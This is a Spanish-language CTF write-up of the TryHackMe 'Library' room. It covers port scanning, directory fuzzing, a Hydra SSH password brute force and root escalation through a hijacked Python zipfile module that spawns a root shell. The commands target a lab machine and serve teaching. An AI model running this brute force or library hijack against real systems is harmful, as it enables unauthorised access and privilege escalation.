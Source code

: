 ```yaml
---
layout: single
title: Library
excerpt: "boot2root machine for FIT and bsides guatemala CTF"
date: 2022-04-29
classes: wide
header:
  teaser: /assets/images/thm-writeup-library/library_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Hydra
  - SSH
  - Python
  - nmap
  - wfuzz
---
```


![logo](/assets/images/thm-writeup-library/library_logo.png)

 [Link](https://tryhackme.com/room/bsidesgtlibrary "dav")

boot2root machine for FIT and bsides guatemala CTF - Read user.txt and root.txt.

---

## 1. Fase de reconocimiento

- Para  conocer a que nos estamos enfrentando lanzamos el siguiente comando:

~~~css
ping -c 1 {ip}
~~~

![ping](/assets/images/thm-writeup-library/library_ping.png)

- De acuerdo con el ttl=63 sabemos que nos estamos enfrentando a una máquina con sistema operativo Linux.

---

## 2. Enumeración / Escaneo

- Escaneo de la totalidad de los ***65535*** puertos de red el cual guardamos en un archivo en formato ***nmap*** con el siguiente comando:
  
~~~css
└─# nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn {ip} -oN allports
~~~

![ping](/assets/images/thm-writeup-library/library_nmap_allports.png)

---

- De acuerdo con el escaneo anterior, se encuentran los siguientes puertos abiertos; 22 (ssh) y 80 (htp)

- Escaeno de vulnerabilidades sobre los puerto 80:
  
~~~css
└─#  nmap -v -A -sC -sV -Pn {ip} -p22,80 --script vuln

~~~

---

- Whatweb nos da la siguiente información:

~~~css
whatweb {ip}
~~~

![whatweb](/assets/images/thm-writeup-library/library_whatweb.png)

---

- Revisión de la URL ***http://10.10.158.155***:

![whatweb](/assets/images/thm-writeup-library/library_web.png)

- Buscando el la ruta ***robots.txt***, me encontré con el siguiente mensaje:

![robots](/assets/images/thm-writeup-library/library_robots.png)

---

## 3. WFUZ

- Escaeno de subdominios con wfuzz:

~~~css
└─# wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt {ip}/FUZZ/
~~~

![wfuzz](/assets/images/thm-writeup-library/library_wfuzz.png)

- Con el anterior escaner encotramos solo un archivo ***images*** en el cual no encotramos unas imagenes:

![wfuzz](/assets/images/thm-writeup-library/library_images.png)

---

## 4 Hydra

- Con la información de ***robots.txt*** procedemos a intentar por fuerza bruta a conseguir la contraseña del usuario ***meliodas*** que habiamos encontrado en la página de inicio:

~~~css
└─$ hydra -l meliodas -P /usr/share/wordlists/rockyou.txt   ssh://{ip} -f -VV -t 4
~~~

![Hydra](/assets/images/thm-writeup-library/library_hydra.png)


## 4. SSH

- Con la contraseña obtenida con ***hydra*** del usuario ***meliodas*** procedemos a establecer una conexión via ***ssh**.

~~~css
└─# ssh meliodas@{ip}
~~~

![ssh](/assets/images/thm-writeup-library/library_ssh.png)


## 5. Bandera de usuario

- Listamos con ***ls*** y encontramos el archivo ***user.txt***:

![usr](/assets/images/thm-writeup-library/library_usr.png)

---

## 6. Bandera root

- Búsqueda de vulnerabilidades con el comando ***sudo -l***:

![root](/assets/images/thm-writeup-library/library_ls.png)

- Creación del binario  ***zipfile.py***, desde la máquina atacante, con el siguiente contenido que nos va a escalar una ***bash*** como root:

~~~css
library_ls.pngimport os

ZIP_DEFLATED = 1

def ZipFile(param1, param2, param3):
        print(os.system('/bin/bash'))
~~~

- Procedemos a compartirlo con un servidor en ***python***

![root](/assets/images/thm-writeup-library/library_server.png)

---

- Descargamos el archivo creado en la máquina con ***wget***:

![wget](/assets/images/thm-writeup-library/library_wget.png)

---

- Ejecutamos el script ***bak.py*** y obtenemos la bandera root:

![root](/assets/images/thm-writeup-library/library_root.png)

---

## 7. Fuentes

- Writeup:
  
<https://r4bb1t.medium.com/library-write-up-7dd5d5c5a9eb>
